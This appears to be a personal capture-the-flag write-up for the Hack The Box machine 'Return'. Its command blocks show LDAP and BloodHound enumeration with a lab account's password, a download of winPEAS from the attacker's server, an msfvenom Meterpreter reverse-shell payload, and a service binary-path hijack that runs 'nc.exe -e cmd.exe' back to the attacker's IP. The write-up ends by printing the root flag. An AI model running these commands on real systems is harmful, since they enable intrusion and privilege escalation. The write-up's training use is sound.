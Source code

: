 
```
ldapdomaindump ldaps://10.10.11.108 -u 'RETURN\svc-printer' -p '1edFg43012!!'
```
![[Pasted image 20240505194413.png]]


```
bloodhound-python -d RETURN.local -u svc-printer -p '1edFg43012!!' -ns 10.10.11.108 -c all
```
![[Pasted image 20240505194335.png]]

Let's run winpeas
```
IWR -Uri http://10.10.16.20:8080//winpeas/winPEASx64.exe -OutFile winPEASx64.exe
```
![[Pasted image 20240506015645.png]]

![[Pasted image 20240506020652.png]]

```
USERDOMAIN: RETURN
USERDNSDOMAIN: return.local
```



```
IWR -Uri http://10.10.16.20:8080/opt/windows_tools/Sherlock.ps1 -OutFile /opt/windows_tools/Sherlock.ps1
```
![[Pasted image 20240506022418.png]]

```
net user svc-printer
```
![[Pasted image 20240506022345.png]]

The only thing coming to my mind is Meterpreter shell and Msfvenom

```
msfvenom -p windows/meterpreter/reverse_tcp -f exe -o shell.exe LHOST=10.10.16.20 LPORT=4242
```
![[Pasted image 20240506022907.png]]

```
upload HackTheBox/Return/shell.exe
```
![[Pasted image 20240506023311.png]]


Now will configure the Msfconsle before running the shell.exe
```
use exploit/multi/handler 
```
![[Pasted image 20240506040642.png]]

Now we can run it and catch the shell

Now let's change the path of service binary
```
sc.exe config vss binPath="C:\Users\svc-printer\Documents\shell.exe"
```
![[Pasted image 20240506040930.png]]
As we started the sc.exe it got stuck which is an indication that we might got a shell finally
![[Pasted image 20240506041014.png]]

<hr>

I have changed the approached and uploaded a simple nc.exe file 
```
sc.exe config vss binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd.exe 10.10.16.20 9999"
```
![[Pasted image 20240506043343.png]]

And got the stable shell as the approach described in the walkthrough didn't worked.
```
type C:\Users\Administrator\Desktop\root.txt
```

```
506018e945b364793fe8f27407c7436d
```

![[Pasted image 20240506043433.png]]

So sometimes a simple approach can work fine.

